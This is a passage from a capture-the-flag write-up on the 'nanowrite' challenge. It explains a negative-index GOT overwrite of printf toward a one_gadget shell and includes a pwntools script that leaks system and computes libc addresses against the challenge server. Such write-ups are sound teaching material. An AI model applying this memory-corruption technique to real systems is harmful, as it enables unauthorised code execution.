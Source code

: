 Once the last byte is put in place, we get a shell.

To make life a bit easier, for free, we get the version of libc and the location of `system`, that can then be used to find the base of libc for use with a gadget.

So, the exploit is pretty clear, using a negative value for `i` write _backwards_ into the GOT and _safely_ change `printf` byte-by-byte until we reach a tested gadget.  Easy, _right?_

> To test a gadget, just use GDB, set a breakpoint, change the GOT by hand.  The gadget I used from `one_gadget libc.so.6` was `0x4f322`.


### Exploit

#### Attack Plan

1. Get `system` leak and compute the addresses of `printf`, `dprintf`, and the gadget
2. Find a list of all the "safe" libc addresses
3. Create a graph
4. Compute the shortest path to the gadget
5. _write-what-where_ the exploit
6. Get a shell, get the flag


#### Get `system` leak and compute the addresses of `printf`, `dprintf`, and the gadget

```python
#!/usr/bin/python3

from pwn import *
import networkx as nx
import time

binary = ELF('./nanowrite')
#p = process('./nanowrite')
#libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
p = remote('dorsia4.wpictf.xyz',31337)
libc = ELF('libc.so.6')

_ = p.recvline().split()[0]

system = int(_,16) - 765772
print("system:  " + hex(system))
baselibc = system - libc.symbols['system']
print("libc:    " + str(hex(baselibc)))
printf  = baselibc + libc.symbols['printf']
print("printf:  " + str(hex(printf)))
dprintf = baselibc + libc.symbols['dprintf']
print("dprintf: " + str(hex(dprintf)))
gadget  = baselibc + 0x4f322
print("gadget:  " + str(hex(gadget)))
```

From the _card_, `printf("%p giv i b\n",system+765722);` just leaks `system` and some nonsense we do not care about.  Computing the locations of `system`, `printf`, `dprintf`, and the gadget is pretty straight forward.
